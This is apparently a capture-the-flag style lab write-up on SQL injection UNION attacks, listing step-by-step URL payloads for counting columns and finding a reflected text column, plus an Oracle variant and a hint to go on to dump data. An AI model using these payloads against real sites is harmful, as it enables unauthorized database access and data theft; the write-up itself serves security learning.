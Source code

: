# SQL injection UNION attack, finding a column containing text

A concise write-up using **my original steps** (verbatim) with small, accurate notes and payload blocks.

---

## 🥅 Goal
**Return string reflection from a query** (the reflected string appears at the **top of the page**).

---

## ✅ My Exact Steps (Verbatim)

1. **GOAL: return string reflection from a query, the string is found at the top of the page.**

2. **First we need to find the vulnerable path**

3. **`/filter?category=Corporate+gifts'` -> 500 status**

4. **`/filter?category=Corporate+gifts'+--+` -> fixed**

5. **enumerating columns: `Corporate+gifts'+UNION+SELECT+null,null,null+--+` -> returns 200**

6. **We replace each null with string until we get 200 and see reflection: `/filter?category=Corporate+gifts'+UNION+SELECT+null,'a',null+--+`**

7. **`/filter?category=Corporate+gifts'+UNION+SELECT+null,'jreCdX',null+--+` (jreCdX was my custom string)**

8. **Lab solved!**

---

## 🧠 Minimal Additions (Why / Tips)

- **UNION rules:** Your injected `UNION SELECT` must match the **exact number of columns** (and compatible types) returned by the original query. Step 5 confirms the count is **3**.
- **Finding the printed column:** Keep two columns as `NULL` and replace **one column at a time** with a unique marker string (e.g., `jreCdX`). The first payload that **renders your marker** reveals **which column is reflected**.
- **Why `NULL`?** It’s type-flexible and minimizes type mismatch errors during probing.
- **Comments:** `--` comments to end-of-line. `--+` works well in URLs because `+` decodes to a space (some engines require a space after `--`).
- **DB differences:** Selecting bare constants is fine on MySQL/PostgreSQL/SQL Server. **Oracle** requires a dummy table: `UNION SELECT NULL,'jreCdX',NULL FROM DUAL`.
- **Next steps:** Once you know which column is reflected, pivot to **version extraction** or dumping data by placing your **textual payload** in that reflected position.

---

## 🔧 Payloads I Used (Copy/Paste)

**Discovery & Fix:**
```txt
/filter?category=Corporate+gifts'
/filter?category=Corporate+gifts'--+
```

**Confirm 3 columns (adjust NULL count if needed):**
```txt
/filter?category=Corporate+gifts'+UNION+SELECT+NULL,NULL,NULL--+
```

**Probe reflection (swap your marker through each position):**
```txt
/filter?category=Corporate+gifts'+UNION+SELECT+'zPPY98',NULL,NULL--+
/filter?category=Corporate+gifts'+UNION+SELECT+NULL,'zPPY98',NULL--+
/filter?category=Corporate+gifts'+UNION+SELECT+NULL,NULL,'zPPY98'--+
```

**Oracle variant (requires DUAL):**
```txt
/filter?category=Corporate+gifts'+UNION+SELECT+NULL,'zPPY98',NULL+FROM+DUAL--+
```

---

## 🏁 Result
- Identified that the **middle column** is reflected (per Step 7 with `zPPY98`), enabling targeted UNION payloads for data extraction. **Lab Solved. ✅**
